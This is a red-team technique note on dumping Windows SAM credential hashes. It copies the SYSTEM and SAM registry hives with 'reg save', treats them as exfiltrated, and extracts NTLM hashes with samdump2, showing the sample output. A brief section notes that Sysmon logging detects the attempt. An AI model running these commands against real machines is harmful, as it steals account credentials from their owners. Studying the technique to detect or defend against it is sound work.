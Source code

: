 ```yaml
---
description: >-
  Security Accounts Manager (SAM) credential dumping with living off the land
  binary.
---
```


# Dumping Hashes from SAM

## Execution

Dumping the registry hives required for hash extraction:

{% code title="attacker@victim" %}
```erlang
reg save hklm\system system
reg save hklm\sam sam
```
{% endcode %}

Once the files are dumped and exfiltrated, we can dump hashes with samdump2 on kali:

{% code title="attacker@local" %}
```erlang
root@~/tools/mitre/pwdump# samdump2 system sam
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:9f288c9a9aee917e19d4b21928b98268:::
low:1003:aad3b435b51404eeaad3b435b51404ee:4bdaf9484819a077562ebeefaed6ca75:::
```
{% endcode %}

## Observations

Sysmon logs with commandlines will reveal credential dump attempts from the registry as expected:

![](../../.gitbook/assets/pwdump-reg-sysmon.png)

